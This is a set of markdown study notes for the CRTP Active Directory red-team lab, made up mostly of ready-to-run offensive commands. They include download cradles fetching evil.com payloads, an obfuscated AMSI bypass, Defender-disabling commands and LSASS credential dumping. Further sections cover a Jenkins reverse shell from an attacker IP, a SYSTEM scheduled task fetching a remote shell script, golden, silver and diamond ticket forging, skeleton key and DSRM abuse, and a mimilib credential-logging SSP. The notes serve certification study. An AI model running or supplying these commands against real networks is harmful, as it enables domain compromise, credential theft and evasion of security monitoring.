

# 📔 CRTP Notes

### Download executable Cradle

Old and lengthy -&#x20;

```
((New-Object Net.WebClient).DownloadString('http://evil.com/evil.ps1'))
```

New and better - (PSv3 onwards)

```
iex (iwr 'http://evil.com/evil.ps1')
```

NOTE : iwr is alias for **Invoke-WebRequest,** which can be used like -

```
Invoke-WebRequest -Uri "http://example.com/payload.exe" -OutFile payload.exe
or
iwr http://example.com/payload.exe -o payload.exe
```

### AMSI bypass -

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

### Bypassing Real time monitoring (admin access) -

```
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

### Bypassing Powershell Security -

#### using #Invisi-Shell

With Admin privileges -

```
RunWithPathAsAdmin.bat
```

With non-admin privileges - (Recommended)

```
RunWithRegistryNonAdmin.bat
```

### Bypass AV Signatures for PowerShell

#### For full obfuscation of of powershell scripts use - Invoke-Obfuscation ([https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation))

#### AMSITrigger & DefenderCheck

Steps to avoid signature based detection are pretty simple -

* Scan using AMSITrigger
* Modify the detection code snippet (can use Invoke-Obfuscation.ps1)
* Rescan using AMSITrigger
* Repeate step until get 'blank' output

## 1. Domain Enumeration -

#### Get Current Domain -

```
Get-Domain (PowerView)
Get-ADDomain (ActiveDirectory Module)
```

#### Get Object of other Domain -

```
Get-Domain -Domain example.local
Get-ADDomain -Identity example.local
```

#### Get Domain SID for the current Domain -

```
Get-DomainSID
(Get-ADDomain).DomainSID
```

#### Get Domain Policy for the current Domain -

```
Get-DomainPolicyData
(Get-DomainPolicyData).systemaccess
```

#### Get Domain policy for other Domain -

```
(Get-DomainPolicyData -domain example.local).systemaccess
```

#### Get Domain Controller for Current Domain -

```
Get-DomainContorller
Get-ADDomainController
```

#### Get Domain Controllers for another Domain -

```
Get-DomainController -Domain example.local
Get-ADDomainController -DomainName example.local -Discover
```

#### Get a list of users in the Current Domain -

```
Get-DomainUser
Get-DomainUser -Identity user1
Get-DomainUser | select SamAccountName

Get-ADUser -Filter * -Properties *
Get-ADUSer -Identity user1 -Properties *
```

#### Get list of all properties of user in the current Domain -

```
Get-DomainUser -Identity user1 -Properties *
Get-DomainUser -Properties SamAccountName,logonCount

 Get-ADUser -Filter * -Properties * | select -First 1 | Get-Member -MemberType *Property | select Name
 Get-ADUser -Filter * -Properties * | select name,logonCount, @{expression={ []datetime::fromFileTime (&_.pwdlastset) }}
```

#### Search for a particular string in a user's attributes -

```
Get-DomainUser -LDAPFilter "Description=*built*" | Select name,Description
Get-ADUser -Filter 'Description -Like "*built*"' -Properties Description | Select Name,Description
```

#### Get a list of Computers in a current Domain -

```
Get-DomainComputer | select Name
Get-DomainComputer -OperatingSystem "*Server 2022*"
Get-DomainComputer -Ping

Get-ADComputer -Filter * | Select Name
Get-ADComputer -FIlter * | -Properties *
Get-AdComputer -Filter 'OperatingSystem -Like "*Server 2022*"' -Properties OperatingSystem | Select name,OperatingSystem
GEt-ADComputer -Filter * -Properties DNSHostName | %{Test-Connection -Count 1 -ComputerName $_.DNSHostName}
```

#### Get all the groups in the current Domain -

```
Get-DomainGroup | Select Name
Get-DomainGroup -Domain <targetdomin>

Get-ADGroup -Filter * | Select Name
Get-ADGroup -Filter * -Properties *
```

#### Gel all the groups containig the work 'admin' in group name -

```
Get-DomainGroup *admin*

Get-ADGroup -Filter 'Name -Like "*admin*"' | Select Name
```

#### Get all the members of the 'Domain Admins' group -

```
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
Get-ADGroupMember -Identity "Domain Admins" -Recursive
```

#### Get all the members of the 'Enterprise Admins' group -

```
Get-DomainGroupMember -Identity "Enterprise Admins" -Domain example.local -Recurse
```

#### Get the Group Membership for the user -

```
Get-DomainGroup -UserName "user1"
Get-ADPrincipalGroupMember -Identity user1
```

#### List all the local groups on the machine (need administrator privs on the non-dc machine) -&#x20;

```
Get-NetLocalGroup -ComputerName dcorp-dc
```

#### Get members of the local group "Administrators" on a machine (needs administrator privs on non-dc machines) -

```
Get-NetLocalGroup -ComputerName dcorp-dc -GroupName Administrators
```

#### Get actively logged on users on a computer (need local admin rights on the target) -

```
Get-NetLoggedOn -ComputerName dcorp-dc
```

#### Get locally logged users on a computer (need remore registry on the target - started by default on server OS) -

```
Get-LoggedOnLocal -ComputerName dcorp-adminsrv
```

#### Get the last logged on users on a computer (need administrative rights and remote registry on the target) -

```
Get-LastLoggedOn -ComputerName dcorp-adminsrv
```

#### Find Shares in host in the current Domain -

```
Invoke-ShareFinder -Verbose
```

#### Find sensitive files on a computer in the current Domain -

```
Invoke-FileFinder -Verbose
```

#### Get all fileservers of the Domain -

```
Get-NetFileServer
```

#### Get list of GPO in current Domain -

```
Get-DomainGPO
Get-DomainGPO -ComputerName xcorp-user1
```

#### Get GPO(s) which use restricted groups or groups.xml for interesting users -

```
Get-DomainGPOLocalGroup
```

#### Get users which are in a local group of a machine using GPO -

```
Get-DomainGPOComputerLocalGroupMapping -ComputerIdentity xcorp-user1
```

#### Get machines where the given user is member of a specific group -

```
Get-DomainGPOUSerLocalGroupMapping -Identity user1 -Verbose
```

#### Get OUs in a Domain -

```
Get-DomainOU
Get-DomainOU | select Name

Get-ADOrganizationallUnit -Filter * -Properties *
```

#### Get GPO applied on an OU. Read GPO name from gplink attribute from Get-DomainOU

```
Get-DomainGPO -Identity "GPO_NAME"
```

#### ### List all the Computers in the StudentMachinesOU - \[CRTP specific]&#x20;

where, % means :- ForEach-Object | $\_ means :- current Object

```
(Get-DomainGPO -Identity StudentMachines).distinguishedname | %{Get-DomainComputer -SearchBase $_} | Select Name
```

#### Get the ACLs associated with the specified object -

```
Get-DomainObkectAcl -SamAccountName user1 -ResloveGUIDs
```

#### Get the ACLs associated with the specified prefix to be used for search -

```
Get-DomainObjectAcl -SearchBase "LDAP://CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local" -ResolveGUIDs -Verbose
```

#### We can also enumerate ACLs using ActiveDirectory module but without resolving GUIDs -

```
(Get-Acl 'AD:\CN=Administrator,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local') Access
```

#### Search for interesting ACEs -

```
Find-InterestingDomainAcl -ResolveGUIDs

Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"} | select ObjectDN,ActiveDirectoryRights
```

#### Get Active Directroy Rights for a GUID (like here : "RDP USers") -

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"} | select ObjectDN,ActiveDirectoryRights
```

#### Get the ACLs associated with the specified path -

```
Get-PathAcl -Path "\\dcorp-dc.dollarcorp.moneycorp.local\sysvol"
```

#### Get a list of all Domain trusts for the current domain -

```
Get-DomainTrust
Get-DomainTrust -Domain us.dollarcorp.moneycorp.local

Get-ADTrust
Get-ADTrust -Identity us.dollarcorp.moneycorp.local
```

#### Get Details about the current Forest -

```
Get-Forest
Get-Forest -Forest eurocorp.local

Get-ADForest
Get-ADForest -Indentiy eurocorp.local
```

#### Get all Domains in the current Forest -

```
Get-ForestDomain
Get-ForestDomain -Forest eurocorp.local

(Get-ADForest).Domains
```

#### Get all the global catalogs for the current Forest -

```
Get-ForestGlobalCatalog
Get-ForestGlobalCatalog -Forst eurocorp.local

Get-ADForest | Select -ExpandProperty GlobalCatalogs
```

#### Map trusts of a forest -

```
Get-ForestTrust
Get-ForestTrust -Forest eurocorp.local

Get-ADTrust -Filter 'ms-DS-TrustForestTrustInfo -ne "$null"'
```

#### ### Map external trusts in moneycorp.local forest\[CRTP specific] -

```
Get-ForestDomain -Forest eurocorp.local | %{Get-DomainTrust -Domain $_.Name}
(or)
Get-ForestDomain -Forest eurocorp.local | %{Get-DomainTrust -Domain $_.Name} | ?{$_.TrustAttributes -eq "FILTER_SIDS"}
```

#### Find all machines on the current domain where the current user has the local admin access -

```
Find-LocalAdminAccess -Verbose ] --> this works like => Get-DomainComputer > Invoke-CheckLocalAdminAccess

or can use -->
Find-WMILocalAdminAccess.ps1 and Find-PSRemotingLocalAdminAccess.ps1 (scripts)
```

NOTE: This is very noisy, because it will leave 4624 logon and 4634 logoff on DC (which is not so unusual) but, it will leave 4624 logon, 4634 logon and 4672 admin logon\[if successful] (which is unusual)

* So do not run it blindly, run it on a couple of compute like 100 or so.

#### NOTE -

***

•⁠ ⁠They essentially do the same thing i.e., Finding Local Administrator Access rights for our current user in the network of AD

•⁠ ⁠The main difference in output between these two commands comes from the methods and protocols they utilize.

•⁠ ⁠`Find-LocalAdminAccess` is dependent on file share access, whereas `Find-PSRemotingLocalAdminAccess` depends on PowerShell Remoting (WinRM), which might be enabled or configured differently across various machines in a network.

•⁠ ⁠Some machines might have file sharing enabled but not PowerShell Remoting, or vice versa.

***

Find computers where a domain admin (or specified user/group) has sessions -

```
Find-DomainUserLocation -Verbose
Find-DomainUserLocation -UserGroupIdentity "RDPUsers"

It works like -->
> Get-DomainGroupMember > Get-DomainComputer > Get-NetLoggedon
NOTE that server 2019 onwards, local administrator privileges are required to list sessions.
```

#### Find computers where a domain admin session is available and current user has admin access (uses Test-AdminAccess) -

```
Find-DomainUserLocation -CheckAccess
```

#### Find computers (file servers and distributed file servers) where a domain admin session is available

```
Find-DomainUserLocation -Stealth
```

## 2. Privilege Escalation -

### Local Privilege Escalation -

### PowerUp -

#### Service issues using PowerUp -

* Get services with unquoted paths and a space in their name

```
Get-ServiceUnquoted -Verbose
```

* Get Services where the current user can write to its binary path or chage arguments to the binary

```
Get-ModifiableServiceFile -Verbose
```

* Get the services whose configuration current user can modify

```
Get-ModifiableService -Verbose
```

### Run all priv esc checks -

* PowerUp

```
Invoke-AllChecks
```

* Privesc

```
Invoke-PrivEsc
```

* PEASS-ng

```
winPEASx64.exe
```

### Bloodhound -

```
Invoke-BloodHound -CollectionMethod All
or 
Invoke-BloodHound -Stealth  ||  SharpHound.exe -Stealth
or
Invoke-BloodHound -ExcludeDCs
```

## 3. Lateral Movement -

### PowerShell Remoting -

* Think PS-Remoting as psexec.exe on steroids but much silent and super fast!
* It uses Windows Remote Management (WinRM)
* Enabled on Windows 2012 onwards with firewall exception
* Uses WinRM and listens by default on 5985 (HTTP) and 5986 (HTTPS)
* It is recommended way to manager Windows Core Severs
* You may need to enable (PS-Remoting) on Desktop windows machine, (Admin privs required)
* It runs as a high integrity process. SO, you get elevated shell.
* It is **One-to-One**
* **PSSession -**
  * Interactive
  * Runs in a new process (**wsmprovhos**t)
  * Is Stateful
* Useful cmdlets -
  * New-PSSession
  * Enter-PSSession

```
For checking current running processes in current logged in user.
Get-PSHostProcessInfo
```

### Fan-out Remoting (powershell remoting)-

* **One-to-Many**
* Also known as Fan-out remoting.
* Non-Interactive
* Executes commands parallely
* Useful cmdlet - **Invoke-Command**
* Use case - If you have to administer 10k machine it is pretty difficult and PSSession was designed to access one machine at a time, so we use Fan-out remoting in this case. Which executed commands parallely and is non-interactive.
* If you give Invoke-Command list of all 10k machine and command to run over then it will do it so easily.
* Run command and scripts on -&#x20;
  * multiple remote computers
  * in disconnected sessions (v3)
  * as background jobs and more!
* The best thing in powershell for passing the hases, using credentials and executing commands on multiple remote computers.
* Use -**Credential** paramenter to pass username/password

#### Use below to execute commands or script blocks - (command or script is converted to a base 64 encoded script block and sent to the server and then executed remotely)

```
Invoke-Command -ScriptBlock {Get-Process} -ComputerName (Get-Content <list_of_servers>)
```

#### Use Below to execute scripts from files -

```
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 - ComputerName (Get-Content <list_of_servers>) 
```

#### Use below to execute locally loaded functions on remote machine -

```
Invoke-Command -ScriptBlock ${function:Get-Passhashes} -ComputerName (Get-Content <list_of_servers>)
```

#### In this case, we are passing arguments (keep in mind that only positional arguments could be passed this way) -

```
Invoke-Command -ScriptBlock $(function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
```

#### Use below to execute "Stateful" commands using Invoke-Command -

```
> $Sess = New_PSSession -ComputerName Server1
> Invoke-Command -Session $Sess -ScriptBlock {$Proc = Get-Process}
> Invoke-Command -Session $Sess -ScriptBlock {$Proc.name} 
```

```
> $adminsrv = New-PSSession dcorp-adminsrv
> Invoke-Command -ScriptBlock {whoami;hostname} -Session $adminsrv
```

### Tradecraft (powershell remoting) -

* PowerShell remoting supports the system-wide transcripts and deep script block logging.
* We can use **winrs** in place of **PSRemoting** to evade the logging (and still reap the benefits of 5985 allowed) between hosts.

```
winrs -remote:server1 -u:server1\administrator -p:Pass@1234 hostname
```

* We can also use **winrs.vbs** and COM objects of WSMan object.

### Using Mimikatz -

### LSASS -

#### Extracting Credentials from LSASS - (Very high chances of detection when interacting with LSASS)

* Dump credentials on a local machine using **Mimikatz** -

```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

* using **SafetyKatz** (minidump of LSASS and PELoader to run mimikatz)

```
SafetyKatz.exe "sekurlsa::ekeys"
```

* Dump Credentails using SharpKatz (C# port of some of Mimikatz functionality)

```
SharpKatz.exe --Command ekeys
```

* Dump Credentials using Dumpert (DIrect System calls and API unhooking) -

```
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```

* Using pypykatz (Mimikatz funtionality oin python) -

```
pypykatz.exe live lsa
```

* Using Comsvcs.dll -

```
tasklist /FI "IMAGENAME eq lsass.exe"
rundell32.exe C:\Windows\System32\comsvcs.dll, Minidump <lsass_process_id> C:\users\Public\lsass.dump full
```

* From a Linux attacking machine user impacket or Physmem2profit

### OverPass The-Hash -

* Over pass the hash (OPTH) generates tokens from hashes or keys. Needs elevation (Run as administrator)

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'

or

SafetyKatz.exe "sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:cmd.exe" "exit"
```

* The above command starts a powershell session with a logon type 9 (same as runas/netonly)
* Over pass the hash (OPTH) generates tokens from hashes or keys.
* Examples -
  * Below doesn't need elevation of privileges

```
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```

* But
  * Below command needs elevation -

```
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

#### NOTE:

* **Pass the Hash -** For non-Domain joined machines
* **OverPass the Hash -** For Domain joined machines

### DCSync -

* To extract credentials from the DC without code ecexution on it, we can use DCSync.
* To use the DCSync features for getting krbtgt hash execute the below command with DA (Domain admin) privileges for us domain -&#x20;

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
or
SafetyKatz.exe "lsadump:dcsync /user:us\krbtgt" "exit"
```

**NOTE:** By default Domain Admin Privileges are required to run DCSync attack.


### Jenkins exploitation -

#### Get reverse shell from the '_builduser'_ using the command -

```
powershell.exe iex (iwr -UseBasicParsing http://IP_ADDRESS/Invoke-PowerShellTcp.ps1) ; Power -Reverse -IPAddress IP_ADDRESS -Port 3443
```

```
Find-DomainAdminLocation [to get Domain Admin acccess on the current user (PowerView module)]
```

#### Now, get the Loader.exe from you host -

```
 iwr http://172.16.99.60/Loader.exe -o C:\Users\Public\Loader.exe
```

To check the administrative access over the other machine which we discovered before, we can use this command  as well if we already knew the user names -

```
winrs -r:dcorp-mgmt hostname;whoami
```

First we will copy it to the Public folder of dcorp-mgmt as we have the command execution over dcorp-mgmt.

```
echo F | xopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```

Now, we will extract the credential for dcorp-mgmt - \[we will use SafetyKatz.exe | we can use it using Loader.exe]

So, now for running it we need to download it inside the machine. But the Windows Defender will not let it pass, it will create a racket, because we will be downloading it from a remote sever.

So, to **bypass it** we will setup port-forwarding to make this download invisible from Windows Defender.

Setup port-forwarding on dcorp-mgmt using **winrs** command (we are leveraging here our access to RCE on dcorp-mgmt using the machine dcorp-ci which is running jenkins with admin privileges)&#x20;

```
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=IP_ADDRESS"
```

#### NOTE: We are piping it to null because of output redirection. If we run it without $null it will stuck.

Finally we used this command to get the leys -

```
$null | winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

As, we have got the **aes256 key** and **ntlm hash** for _**svcadmin ,**_ now we can use **Rubeus.exe** to actually get the cmd.exe session on DCORP-DC machine which is Domain Admin.

```
Rubeus.exe asktgt /user:svcadmin /aes256:KEY /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

#### --> only aes keys should be used (/opsec) | Interact (/show) | pass the ticket (/ptt)

**NOTE: It uses LogonType9, which means it will show that you (studentX) is still using the machine but infact you have the admin machine rights. \[remember the Kerberos process, we have the ticket and we are actually asking the server to provide us the service based on our privileges on the TGT]**

SO, use this after getting the cmd session -->

```
winrs -r dcorp-dc cmd
```

#### -----First method ending to get DOMAIN ADMIN Privileges-----

### Derivative local admin access exploitation - (which is actually dcorp-mgmt)

```
Using --> Find-PSRemotingLocalAdminAccess -Verbose
We get --> dcorp-adminsrv
```

First we will copy **Invoke-MimiEx.ps1** to dcorp-adminsrv machine then do Enter-PSSession again

```
Copy-Item C:\Users\ADTools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```

Now,

```
Enter-PSSession dcorp-adminsrv
```

Bypass AMSI, but we get an error -

_Cannot invoke method. Method invocation is supported only on core types in this language mode_.

So, Now -->

```
$ExecutionContext.SessionState.LanguageMode
Which will give --> ConstrainedLanguage
```

Which means - PowerShell is running in Constrained Language Mode

So, now we need to evade this.

We'll be using AppLocker (which is a trusted signed server through which we can execute commands which are not allowed in ConstrainedLanguage Mode)

```
Get-AppLockerPolicy -Effective
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

#### Bonus! --> How to look at Windows Registry key using command line -

```
reg query HKLM\Software\policies\Microsoft\Windows\SRPV2
 --> specific policy under - \Script\06dce67b-934c-454f-a263-2515c8796a5d
```

NOTE :- **SRPV2** is used for **AppLocker**

First we will copy **Invoke-MimiEx.ps1** to dcorp-adminsrv machine then do Enter-PSSession again

```
Copy-Item C:\Users\ADTools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```

NOTE : We used 'Program files' because we got (using the registry under the Scripts for AppLocker) that previuosly that anyone can exeute scripts or commands in that folder.

And now are navigation to the 'Program FIles' folder we can execute the Invoke-MimiEx and get the credentials of 3 users in which one of them is '**srvadmin' i.e., DCORP-DC machine host.**

Now, here we will use Loader.exe (SafetyKatz) to get the access to the srvadmin machine (for the sake of the multiple methods)

```
C:\Users\StudnetX\ADTools\Loader.exe -Path C:\Users\StudnetX\ADTools\SafetyKatz.exe "sekurlsa::opassth /user:srvadmin /domain:dollarcorp.moneycorp.local /aes256:KEY /run:cmd.exe" "exit"
```

**NOTE** --> We renamed **pth** to **opassth** to evade some detection which occurs at the time of executing the command.&#x20;

\-----------------------------------------------------------------------------------------------------

&#x20;                                                                                **BONUS SECTION -->**

`Get-MpComputerStatus` - to check if Windows defender is enabled or not.

To edit the registry key to disable DEFENDER (not really recommended..) -

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Microsoft Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```

**Disable WINDOWS DEFENDER -->**

The intresting one is `DisableRealtimeMonitoring`, which you can also do by using the `Set-MpPreference` with PS -

```
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true
```

Another option, which **leaves Defender active** is to simple **delete the signature database**, which you can do with - **(BUT be careful in real-time assessment engagements!)**

```
"C:\Program Files\Windows Defender\MpCmdRun.exe" -removedefinitions -all
```

Using Command Prompt:

* To disable Windows Defender's real-time monitoring:

```
"C:\Program Files\Windows Defender\MpCmdRun.exe" -disableRealtimeMonitoring
```

Using DISM (Deployment Image Servicing and Management):

* To disable Windows Defender:

```
DISM /Online /Disable-Feature /FeatureName:Windows-Defender /NoRestart
```

**For disable and enable windows features like defender (useful  official documentation) -**\
[https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/microsoft-defender-antivirus-on-windows-server?view=o365-worldwide](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/microsoft-defender-antivirus-on-windows-server?view=o365-worldwide)\
[https://learn.microsoft.com/en-us/windows-hardware/manufacture/desktop/enable-or-disable-windows-features-using-dism?view=windows-11](https://learn.microsoft.com/en-us/windows-hardware/manufacture/desktop/enable-or-disable-windows-features-using-dism?view=windows-11)

\-----------------------------------------------------------------------------------------------------

## 4. Persistence - (post Domain Admin part)

### Golden Ticket - (a valid TGT)

**Method 1 (for getting krbtgt secret) - Execute Mimikatz on DC as DA to get krbtgt hash -**

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dcorp-dc 
```

**Method 2 (for getting krbtgt secret) - TO use the DCSync features for getting AES keys for krbtgt account. Use the below command with DA privileges (or a user that has replication rights on the domain object) -**

```
SafeyKatz.exe "lsadump::dcsync /user:dcorp-dc\krbtgt" "exit"
```

NOTE - Using the DCSync option needs no code execution on the target DC.

**FINALLY -**\
**Use the below command to create the golden ticket on any machine that has network connectivity with DC.**

```
BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:SID /aes256:KEY /startoffset:0 /ending:600 /renewmax:10080 /ptt" "exit"
```

.png>)

.png>)

#### Bonus ! --> \[MDI sensor (be aware) - silent detector]

### Silver Ticket - (a valid TGS)

* Encrypted and signed by the hash of a service account (_Golden ticket is signed by hash of krbtgt_) of the service running with that account.
* Service rarely check PAC (Privileged attribute certificate)
* Service will allow access to the service themselves.
* Reasonable persistence period (default 30 days for computer accounts)

**Bonus! --> Not detectable by MDI sensor!!! It is actually neglected by the dector because it seems so small to MDI.**

Now the Command -

```
BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:SID /target:dcorp-dc.dollarcorp.moneycorp.local /service:SERVICE_NAME(e.g., CIFS, HTTP,HOST, RPCSS etc) /rc4:KEY /startoffset:0 /ending:600 /renewmax:10080 /ptt" "exit"
```

**BONUS! --> \[RPCSS service gives us the rights to interact with DC using WMI]**

Now, examples -->

**Create and schedule a task - noisy but fine for PoC -**

```
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient)>DownloadStiring("http://IP/InvokePowerShellTCP.ps1")'"

schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
```

### Diamond Ticket - (TGT modification attack)

* A Diamond ticket is created by decrypting a valid TGT, making changes to it and re-encrypt it using the AES keys of the krbtgt account.
* Golden Ticket was a TGT forging attack whereas Diamond Ticket is a TGT modification attack.
* Once again,  the persistence lifetime depends on krbtgt account.
* A Diamond Ticket is more opsec safe as it has :-
  * Valid ticket times because TGT issued by the DC is modified.
  * In Golden Ticket, there is no corresponding TGT request for TGS/Service ticket requests as the TGT is forged.

#### **Then it should be safe, ain't it? ...Detection?** **The only way it is detected is when we are use the Diamond Ticket!**

Now, creating a Diamond Ticket -->

* Well, we would still need krbtgt AES keys. The use the following Rubeus command to create a Diamond Ticket (**note that RC4 or AES keys of the user can be used too**)

```
Rubeus.exe diamond /krbkey:KEY /user:studentX /password:PASSWORD /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

* We could also use **/tgtdeleg** options in place of credentials in case we have access as a domain user -

```
Rubeus.exe diamond /krbkey:KEY /tgtdeleg /enctype:aes  /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe  /show /ptt
```

### Skeleton Key - (Not recommended using in a actual assessment)

* Skeleton key is persistence technique where it is possible to patch a Domain Controller (lsass process) so that allows access as any user with a single password.
* All publicaly available methods are NOT persistent across reboots.

Use the below command to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice. DA privileges required -->

```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

\--> Now, it is possible to access any machine with a valid username and password as "mimikatz"

```
Enter-PSSession -Computername dcorp-dc -credential dcorp\Administrator
```

**NOTE - that Skeleton Key is not opsec safe and is also known to cause issues with AD CS.**

In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC -

_NOTE : To check if lsass is running as a protected process or not -_

```
if ((Get-Process -Name lsass).StartInfo.EnvironmentVariables['PROCESS_MITIGATION_SYSTEM_CALL_DISABLE_POLICY_SID']) { "Protected" } else { "Not Protected" }
```

```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

Note that above would be very noisy in logs - Service installation (Kernel mode driver)

### DSRM - (with the longest shelf life)

* DSRM is **Directory Services Restore Mode**.
* There is a local administrator on every DC called "Administrator" whose password is the DSRM password.
* DSRM password (**SafeModePassword**) is required when a server is promoted to Domain Controller and it is rarely changed.
* After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.

.png>)

* Dump DSRM password (needs DA privs)

```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
```

* Compare the Administrator hash with the Administrator hash of below command

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

* **First one is the DSRM local Administrator**
* Since it is the local administrator of the DC, we can pass the hash to authenticate.
* But, the Logon Behavior for the DSRM account needs to be changed before we can use its hash.

```
Enter-PSSession -Computername dcorp-dc New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

FINALLY -

* Use below command to pass the hash

```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:HASH /run:powershell.exe"'

ls \\dcorp-dc\C$
```

\-----------------------------------------------------------------------------------------------------

#### &#x20;                                                                       **BONUS! --> Order of usage :-**                                                                       **SILVER > DIAMOND > GOLDEN**

\-----------------------------------------------------------------------------------------------------

### Custom SSP - (pretty useful but pretty dangerous as well)

A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are

* NTLM
* Kerberos
* Wdigest
* CredSSP

Mimikatz provides a custom SSP - **mimilib.dll**. This SSP logs local logons, service account and machine account passwords in clear text on the target server.

Usage either of the ways :-

* Drop the mimilib.dll to system32 and add mimilib to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages -

```
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```

* Using mimikatz, inject into lsass (Not super stable with Server 2019 and Server 2022 but still usable) -

```
Invoke-Mimikatz -Command '"misc::memssp"'
```

**NOTE-  All local logons on the DC are logged to C:\Windows\system32\mimilsa.log**

**BONUS! --> "World readable directory on DOMAIN CONTROLLER --> **_**sysvol"**_

